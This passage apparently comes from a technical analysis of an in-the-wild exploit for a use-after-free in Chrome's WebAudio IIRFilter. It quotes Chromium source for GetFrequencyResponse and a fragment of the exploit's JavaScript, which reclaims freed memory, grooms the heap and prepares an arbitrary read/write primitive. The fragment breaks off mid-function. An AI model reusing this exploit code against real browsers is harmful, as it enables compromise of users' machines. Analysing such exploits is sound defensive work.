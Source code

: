 


This time the exploit uses the function getFrequencyResponse() to check if exploitation was successful. The function creates an array of frequencies that is filled with a Nyquist filter and the source array for the operation is filled with zeroes.





void IIRDSPKernel::GetFrequencyResponse(int n_frequencies,
                                    	const float* frequency_hz,
                                    	float* mag_response,
                                    	float* phase_response) {
...
  Vector<float> frequency(n_frequencies);
  double nyquist = this->Nyquist();
  // Convert from frequency in Hz to normalized frequency (0 -> 1),
  // with 1 equal to the Nyquist frequency.
  for (int k = 0; k < n_frequencies; ++k)
	frequency[k] = frequency_hz[k] / nyquist;
...




123456789101112

void IIRDSPKernel::GetFrequencyResponse(int n_frequencies,                                    	const float* frequency_hz,                                    	float* mag_response,                                    	float* phase_response) {...  Vector<float> frequency(n_frequencies);  double nyquist = this->Nyquist();  // Convert from frequency in Hz to normalized frequency (0 -> 1),  // with 1 equal to the Nyquist frequency.  for (int k = 0; k < n_frequencies; ++k) frequency[k] = frequency_hz[k] / nyquist;...




If the resulting array contains a value other than π, it means exploitation was successful. If that’s the case, the exploit stops its recursion and executes the function finalUAFCallback to allocate the audio channel buffer again and reclaim the previously freed memory. This function also repairs the heap to prevent possible crashes by allocating various objects of different sizes and performing defragmentation of the heap. The exploit also creates BigUint64Array, which is used later to create an arbitrary read/write primitive.





async function finalUAFCallback() {
	for (let i = 0; i < 256; i++) {
    		floatArray.fill(0);
 
         	iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);
 
    		if (floatArray[0] != 3.1415927410125732) {
        		await collectGargabe();
 
        		audioBufferArray2 = [];
 
        		for (let j = 0; j < 80; j++)
                 		audioBufferArray1.push(sharedAudioCtx.createBuffer(1, 2, 10000));
 
